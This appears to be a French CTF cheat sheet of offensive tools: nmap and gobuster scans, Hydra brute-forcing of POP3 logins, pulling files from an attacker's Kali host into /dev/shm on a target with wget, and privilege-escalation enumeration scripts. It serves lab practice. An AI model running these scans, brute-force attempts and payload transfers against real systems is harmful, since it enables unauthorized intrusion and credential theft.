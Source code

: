 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Outils

## nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u $IP -t50
```

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u http://$IP:8080 -t50 -U <user> -P <password>
```



## Hydra

* Hydra pour pop3

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

ou

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

## Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
